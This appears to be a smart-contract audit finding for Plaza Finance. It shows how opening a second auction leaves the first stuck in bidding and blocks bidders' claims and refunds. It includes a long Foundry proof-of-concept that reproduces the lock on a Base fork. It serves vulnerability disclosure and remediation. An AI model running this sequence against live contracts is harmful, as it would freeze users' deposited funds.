 Plain Daffodil Dove

High

# Multiple open `Auctions` lead to Auction `locked in bidding state` and cause users to `lose money`

### Summary

Beyond the `BondToken::currentPeriod` incrementing issue, there is an even more problematic situation caused by the `startAuction` function. Within a specific order of actions happening, it can lead to `Auction` being locked in the `bidding` state, blocking users from `claim` and `refund`.

### Root Cause

Even working as expected, the `currentPeriod` will always account for the most recent `Auction` created. This means, that if two are opened, the bids for the first one will be blocked in an inconsistent `Auction` state.
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L578
Revert: https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L580

### Internal Pre-conditions

1. `GOV_ROLE` decrease `durationPeriod` to attend new goals.
2. `GOV_ROLE` increases `auctionPeriod` to provide more time to bidders.

### External Pre-conditions

Requires one user malicious or not, to call `startAuction` during the window mentioned above.

### Attack Path

1. A `Pool` is created and the users start depositing reserve tokens in it: 
2. After the `distribution` time passed, a person executes the `Auction::startAuction` function.
    - An Auction is started, the `BondToken::currentPeriod` variable is updated
    - https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L530
    - The information is provided for the `Auction` contract to be deployed and initialized.
    - `Pool::lastDistribution` is updated: https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L567
3. Considering a `distributionPeriod` of 3 months and the `Auction` period of `10 days`. It may be impossible to create new `Auctions` while the first is ongoing. However, the `distributionPeriod` can be updated without constraints in the `setDistribution` because the `notInAuction` modifier accounts for the `future` `BondToken::currentPeriod` variable.
   - https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L750-L754
5. As so, as stated by the team. The `Auction::endTime` can be updated by the `GOV_ROLE`. Which means, they can reach dangerous thresholds.
6. Even though the `GOV_ROLE` never updates the time during an active `Auction`, it can happen during the inactive time and offer risk to the `Auctions` created after it.
7. So, a user calls `startAuction` again, which will check for a non-utilized `currentPeriod` and a second `Auction` is created blocking the first one completely.
   - https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L538-L539
8. After the `auctionPeriod` for the first Auction ends, calls `endAuction`: https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L336-L350
9. `endAuction` calls `transferReserveTokensToAuction`: https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L578
10. Call Reverted because the `msg.sender` will not be the correct `Auction`: https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L580

It requires a specific window but is feasible and easily doable, even by mistake. Besides blocking the money, it would also block the `Pool::distribute` function from being called.

### Impact

Users who bid on the first Auction will have their assets sized because the `Auction` will be blocked in the `bidding` state, not being able to `claimRefund` or `claimBids`.

### PoC

Forked Helper

<details>

```solidity

//SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import { Test, console } from "forge-std/Test.sol";

///Protocol Contracts
import { Auction } from "../../src/Auction.sol";
import { BalancerOracleAdapter } from "../../src/BalancerOracleAdapter.sol";
import { BalancerRouter } from "../../src/BalancerRouter.sol";
import { BondOracleAdapter } from "../../src/BondOracleAdapter.sol";
import { BondToken } from "../../src/BondToken.sol";
import { Deployer } from "../../src/utils/Deployer.sol";
import { Distributor } from "../../src/Distributor.sol";
import { LeverageToken } from "../../src/LeverageToken.sol";
import { OracleFeeds } from "../../src/OracleFeeds.sol";
import { OracleReader } from "../../src/OracleReader.sol";
import { Pool } from "../../src/Pool.sol";
import { PoolFactory } from "../../src/PoolFactory.sol";
import { PreDeposit } from "../../src/PreDeposit.sol";

///OpenZeppelin Contracts
import { ERC1967Proxy } from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import { UpgradeableBeacon } from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";
import { BeaconProxy } from "@openzeppelin/contracts/proxy/beacon/BeaconProxy.sol";
import { IERC20 } from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface IWETH {
    function deposit() external payable;
}

contract Helper is Test {
    //Fork Variables
    uint256 s_baseFork;
    string BASE_RPC = vm.envString("BASE_RPC");

    //Protocol Tokens
    IERC20 constant wETH = IERC20(0x4200000000000000000000000000000000000006);
    IERC20 constant USDC = IERC20(0x833589fCD6eDb6E08f4c7C32D4f71b54bdA02913);
    address constant CL_ETH_PRICE_FEED = 0x71041dddad3595F9CEd3DcCFBe3D1F4b0a16Bb70;
    address constant BALANCER_VAULT = address(0x0);
    address constant BALANCER_POOL_TOKENS = address(0x0);

    //DUMMY DEPLOYER
    PoolFactory s_dummyFactory;
    Auction s_dummyAuction;
    PreDeposit s_dummyPre;
    BondToken s_dummyBond;
    LeverageToken s_dummyLev;
    Pool s_dummyPool;
    Distributor s_dummyDistributor;

    //Protocol Contracts
    Auction s_auction;
    BalancerOracleAdapter s_balancerOracle;
    BalancerRouter s_balancerRouter;
    BondOracleAdapter s_bondAdapter;
    BondToken s_bond;
    Deployer s_deployer;
    Distributor s_distributor;
    LeverageToken s_lev;
    OracleFeeds s_feeds;
    OracleReader s_reader;
    Pool s_pool;
    PoolFactory s_factory;
    PreDeposit s_pre;

    //Protocol Base Proxy Contracts
    ERC1967Proxy s_factoryProxy;
    ERC1967Proxy s_auctionProxy;
    ERC1967Proxy s_preProxy;
    UpgradeableBeacon s_poolProxy;
    UpgradeableBeacon s_bondProxy;
    UpgradeableBeacon s_levProxy;
    UpgradeableBeacon s_distributorProxy;

    //Wrappers
    PoolFactory s_factoryWrapper;
    Auction s_auctionWrapper;
    PreDeposit s_preWrapper;
    Pool s_poolWrapper;
    BondToken s_bondWrapper;
    LeverageToken s_levWrapper;

    //Types
    Pool.TokenType types;

    //Fake Roles Variables
    address s_governanceRole = makeAddr("GOV_ROLE");
    address s_minterRole = makeAddr("MINTER_ROLE");
    address s_securityRole = makeAddr("SECURITY_COUNCIL_ROLE");
    address s_poolRole = makeAddr("POOL_ROLE");

    //Actors
    address s_coinbase = address(0x739120AdE7ED878FcA5bbDB806263a8258FE2360);
    address s_owner = makeAddr("s_owner");
    address s_beneficiary = makeAddr("s_beneficiary");
    address s_user01 = makeAddr("s_user01");
    address s_user02 = makeAddr("s_user02");
    address s_user03 = makeAddr("s_user03");

    //Utils
    uint256 constant USDC_INITIAL_AMOUNT = 100_000*10**6;
    uint256 constant WETH_INITIAL_AMOUNT = 100*10**18;
    uint256 constant RESERVE_INITIAL_AMOUNT = 10*10**18;
    uint256 constant BOND_AMOUNT = 10*10**18;
    uint256 constant LEV_AMOUNT = 10*10**18;

    ///Events
    event AuctionEnded(Auction.State state, uint256 totalSellReserveAmount, uint256 totalBuyCouponAmount);


    function setUp() public {
        //Start Fork
        s_baseFork = vm.createFork(BASE_RPC);
        vm.selectFork(s_baseFork);

        //DUMMY DEPLOYER
        s_dummyFactory = new PoolFactory();
        s_dummyAuction = new Auction();
        s_dummyPre = new PreDeposit();
        s_dummyBond = new BondToken();
        s_dummyLev = new LeverageToken();
        s_dummyDistributor = new Distributor();
        s_dummyPool = new Pool();

        //Deploy Proxies
        s_factoryProxy = new ERC1967Proxy(address(s_dummyFactory), bytes(""));
        s_auctionProxy = new ERC1967Proxy(address(s_dummyAuction), bytes(""));
        s_preProxy = new ERC1967Proxy(address(s_dummyPre), bytes(""));
        s_bondProxy = new UpgradeableBeacon(address(s_dummyBond), s_owner);
        s_levProxy = new UpgradeableBeacon(address(s_dummyLev), s_owner);
        s_poolProxy = new UpgradeableBeacon(address(s_dummyPool), s_owner);
        s_distributorProxy = new UpgradeableBeacon(address(s_dummyDistributor), s_owner);

        //Wrap Proxies with Implementations
        s_factoryWrapper = PoolFactory(address(s_factoryProxy));
        s_auctionWrapper = Auction(address(s_auctionProxy));
        s_preWrapper = PreDeposit(address(s_preProxy));
        s_poolWrapper = Pool(address(s_poolProxy));

        //Deploy Contracts
        //1.
        s_deployer = new Deployer();
        //2.
        vm.startPrank(s_governanceRole); //Oracle Feeds
            s_feeds = new OracleFeeds();
            s_feeds.setPriceFeed(
                address(wETH),
                address(0), //Following Docs, it means == USD
                CL_ETH_PRICE_FEED,
                86400
            );
        vm.stopPrank();
        //3.
        s_pool = new Pool();
        //4.
        s_factory = new PoolFactory();
        //5.
        s_distributor = new Distributor();
        //6.
        vm.startPrank(s_governanceRole); //Init & Upgrade Factory
            s_factoryWrapper.initialize(
                s_governanceRole,
                address(s_deployer),
                address(s_feeds),
                address(s_poolProxy),
                address(s_bondProxy),
                address(s_levProxy),
                address(s_distributorProxy)
            );
            //7.
            s_factoryWrapper.upgradeToAndCall(address(s_factory), bytes(""));
        vm.stopPrank();
        
        //Deployed by Factory
        // - deployer
        // - s_bond
        // - s_lev
        // - distributor

        //Deployed by Pool
        // - s_auction;
        s_balancerOracle = new BalancerOracleAdapter();
        s_balancerRouter = new BalancerRouter(
            BALANCER_VAULT,
            BALANCER_POOL_TOKENS
        );
        s_bondAdapter = new BondOracleAdapter();
        s_reader = new OracleReader();
        s_pre = new PreDeposit();

        vm.startPrank(address(s_coinbase));
        USDC.transfer(s_user01, USDC_INITIAL_AMOUNT);
        USDC.transfer(s_user02, USDC_INITIAL_AMOUNT);
        USDC.transfer(s_user03, USDC_INITIAL_AMOUNT);
        vm.stopPrank();

        console.log(wETH.balanceOf(address(wETH)));

        vm.deal(s_governanceRole, WETH_INITIAL_AMOUNT);
        vm.deal(s_user01, WETH_INITIAL_AMOUNT);
        vm.deal(s_user02, WETH_INITIAL_AMOUNT);
        vm.deal(s_user03, WETH_INITIAL_AMOUNT);

        vm.prank(s_governanceRole);
        IWETH(address(wETH)).deposit{value: WETH_INITIAL_AMOUNT}();
        vm.prank(s_user01);
        IWETH(address(wETH)).deposit{value: WETH_INITIAL_AMOUNT}();
        vm.prank(s_user02);
        IWETH(address(wETH)).deposit{value: WETH_INITIAL_AMOUNT}();
        vm.prank(s_user03);
        IWETH(address(wETH)).deposit{value: WETH_INITIAL_AMOUNT}();

        vm.startPrank(s_governanceRole);
        s_factoryWrapper.grantRole(s_factory.POOL_ROLE(), s_governanceRole);
        vm.stopPrank();

        //Create the pool
        helper_createPool();

        //Upgrade Proxy
        vm.prank(s_owner);
        s_poolProxy.upgradeTo(address(s_pool));
    }

    function helper_createPool() public {
        PoolFactory.PoolParams memory params = PoolFactory.PoolParams({
            fee: 100000,
            reserveToken: address(wETH),
            couponToken: address(USDC),
            distributionPeriod: 1 days,
            sharesPerToken: 10*10**6, //Shares have 10**6 decimals
            feeBeneficiary: s_beneficiary
        });

        vm.startPrank(s_governanceRole);
        //1.
        wETH.approve(address(s_factoryWrapper), WETH_INITIAL_AMOUNT);
        //2.
        s_poolWrapper = Pool(s_factoryWrapper.createPool(
            params,
            RESERVE_INITIAL_AMOUNT,
            BOND_AMOUNT,
            LEV_AMOUNT,
            "BondToken",
            "BTN",
            "LeverageToken",
            "LEVT",
            false
        ));

        s_poolWrapper.setAuctionPeriod(15 days);

        vm.stopPrank();

        s_bondWrapper = BondToken(address(s_poolWrapper.bondToken()));
        s_levWrapper = LeverageToken(address(s_poolWrapper.lToken()));
    }

    function helper_getOracleAnswer() public returns(uint256 oracleAnswer_){
        oracleAnswer_ = s_poolWrapper.getOraclePrice(address(wETH), address(0)) * (10**10);
    }

    function helper_userDeposit(address _user) public returns(uint256 _amountMinted){
        uint256 amountToDeposit = 10*10**18;

        vm.startPrank(_user);
        wETH.approve(address(s_poolWrapper), amountToDeposit);
        _amountMinted = s_poolWrapper.create(
            Pool.TokenType.BOND, 
            amountToDeposit,
            0
        );
        vm.stopPrank();
    }

    function helper_userBids(
        address _user, 
        Auction _auction, 
        uint256 _firstBuyReserveAmount,
        uint256 _firstBidAmount
    ) public {

        vm.startPrank(_user);
        USDC.approve(address(_auction), _firstBidAmount);
        _auction.bid(_firstBuyReserveAmount, _firstBidAmount);
        vm.stopPrank();
    }

    function helper_userClaims(
        address _user,
        Auction _auction,
        uint256 _bidId
    ) public {
        vm.startPrank(_user);
        _auction.claimBid(_bidId);
        vm.stopPrank();
    }
}

```


</details>

PoC

<details>

```solidity

//SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import { Helper } from "./Helper.t.sol";

import { Pool } from "../../src/Pool.sol";
import { Auction } from "../../src/Auction.sol";

import { console } from "forge-std/Console.sol";

contract PoCs is Helper {

  function test_manipulatedAuctionsAndBlockEndingFromFirstOne() public {
        uint256 currentPeriod;

        //Users deposing
        helper_userDeposit(s_user01);
        helper_userDeposit(s_user02);
        helper_userDeposit(s_user03);

        //Time advance and now is possible to start an auction
        vm.warp(block.timestamp + 1 days +1 );
        
        //Auction is started as expected
        s_poolWrapper.startAuction();
        (currentPeriod, ) = s_bondWrapper.globalPool();
        Auction firstAuction = Auction(s_poolWrapper.auctions(currentPeriod - 1));
        
        //Governance Change info for some reason
        vm.prank(s_governanceRole);
        s_poolWrapper.setAuctionPeriod(10 days);

        //Time advance and now is possible to start a second auction
        vm.warp(block.timestamp + 1 days +1 );

        //An second Auction is stated. But this one has 10 days, for some reason
        s_poolWrapper.startAuction();
        (currentPeriod, ) = s_bondWrapper.globalPool();
        Auction secondAuction = Auction(s_poolWrapper.auctions(currentPeriod - 1));
        
        /*//////////////////////////////////////////////////////////////////////////////
                                BIDING STARTS - FIRST AUCTION
        //////////////////////////////////////////////////////////////////////////////*/
        uint256 firstBuyReserveAmount = 2*10**18;
        uint256 firstBidAmount = 4000*10**6;
        address bidder;
        uint256 reserveAmount;
        uint256 sellCouponAmount;

        console.log("User01 Bids");
        helper_userBids(s_user01, firstAuction, firstBuyReserveAmount, firstBidAmount);
        (bidder,reserveAmount,sellCouponAmount,,,) = firstAuction.bids(1);
        assertEq(USDC.balanceOf(s_user01), USDC_INITIAL_AMOUNT - firstBidAmount);
        assertEq(bidder, s_user01);

        console.log("User02 Bids");
        helper_userBids(s_user02, firstAuction, firstBuyReserveAmount, firstBidAmount);
        (bidder,reserveAmount,sellCouponAmount,,,) = firstAuction.bids(2);
        assertEq(USDC.balanceOf(s_user02), USDC_INITIAL_AMOUNT - firstBidAmount);
        assertEq(bidder, s_user02);

        console.log("User03 Bids");
        helper_userBids(s_user03, firstAuction, firstBuyReserveAmount, firstBidAmount);
        (bidder,reserveAmount,sellCouponAmount,,,) = firstAuction.bids(3);
        assertTrue(USDC.balanceOf(s_user03) < USDC_INITIAL_AMOUNT);
        assertEq(bidder, s_user03);

        //Check if storage is correctly updated when an big is reduced
        assertTrue(reserveAmount < firstBuyReserveAmount);
        console.log(reserveAmount);
        assertTrue(sellCouponAmount < firstBidAmount);
        console.log(sellCouponAmount);

        /*//////////////////////////////////////////////////////////////////////////////
                                BIDING STARTS - SECOND AUCTION
        //////////////////////////////////////////////////////////////////////////////*/
        console.log("User01 Bids");
        helper_userBids(s_user01, secondAuction, firstBuyReserveAmount, firstBidAmount);
        (bidder,reserveAmount,sellCouponAmount,,,) = secondAuction.bids(1);
        assertEq(USDC.balanceOf(s_user01), USDC_INITIAL_AMOUNT - (firstBidAmount *2));
        assertEq(bidder, s_user01);

        console.log("User02 Bids");
        helper_userBids(s_user02, secondAuction, firstBuyReserveAmount, firstBidAmount);
        (bidder,reserveAmount,sellCouponAmount,,,) = secondAuction.bids(2);
        assertEq(USDC.balanceOf(s_user02), USDC_INITIAL_AMOUNT - (firstBidAmount *2));
        assertEq(bidder, s_user02);

        console.log("User03 Bids");
        helper_userBids(s_user03, secondAuction, firstBuyReserveAmount, firstBidAmount);
        (bidder,reserveAmount,sellCouponAmount,,,) = secondAuction.bids(3);
        assertTrue(USDC.balanceOf(s_user03) < USDC_INITIAL_AMOUNT - firstBidAmount);
        assertEq(bidder, s_user03);

        //Check if storage is correctly updated when an big is reduced
        assertTrue(reserveAmount < firstBuyReserveAmount);
        console.log(reserveAmount);
        assertTrue(sellCouponAmount < firstBidAmount);
        console.log(sellCouponAmount);

        /*//////////////////////////////////////////////////////////////////////////////
                                SECOND AUCTION - ENDS FIRST
        //////////////////////////////////////////////////////////////////////////////*/
        vm.warp(block.timestamp + 10 days);
        uint256 totalSellReserveAmount = secondAuction.totalSellReserveAmount();
        uint256 totalBuyCouponAmount = secondAuction.totalBuyCouponAmount();
        vm.expectEmit();
        emit AuctionEnded(Auction.State(1), totalSellReserveAmount, totalBuyCouponAmount);
        secondAuction.endAuction();

        /*//////////////////////////////////////////////////////////////////////////////
                            SECOND AUCTION - USERS STARTS CLAIMING
        //////////////////////////////////////////////////////////////////////////////*/
        uint256 user01Balance = wETH.balanceOf(s_user01);
        uint256 user02Balance = wETH.balanceOf(s_user01);
        uint256 user03Balance = wETH.balanceOf(s_user01);

        helper_userClaims(s_user01, secondAuction, 1);
        assertTrue(wETH.balanceOf(s_user01) > user01Balance);
        helper_userClaims(s_user02, secondAuction, 2);
        assertTrue(wETH.balanceOf(s_user02) > user02Balance);
        helper_userClaims(s_user03, secondAuction, 3);
        assertTrue(wETH.balanceOf(s_user03) > user03Balance);

        /*//////////////////////////////////////////////////////////////////////////////
                                FIRST AUCTION - ENDS AFTER
        //////////////////////////////////////////////////////////////////////////////*/
        vm.warp(block.timestamp + 5 days);
        uint256 totalSellReserveAmountFirstAuction = firstAuction.totalSellReserveAmount();
        uint256 totalBuyCouponAmountFirstAuction = firstAuction.totalBuyCouponAmount();
        //Fails to end because a new Auction started later
        vm.expectRevert();
        firstAuction.endAuction();

        /*//////////////////////////////////////////////////////////////////////////////
                            FIRST AUCTION - USERS START TO GET REFUND
        //////////////////////////////////////////////////////////////////////////////*/
        vm.prank(s_user01);
        vm.expectRevert(abi.encodeWithSelector(Auction.AuctionFailed.selector));
        firstAuction.claimRefund(1);
    }
}

```


</details>

### Mitigation

- **Recomendations**
1. Update the `NotInAuction` modifier to account for the correct `Auction::currentPeriod`.
2. Add checks for inputs on `Pool::setDistributionPeriod` and `Pool::setAuctionPeriod`, to not allow updates that can lead to a creation of multiple `Auctions` with inconsistent state.
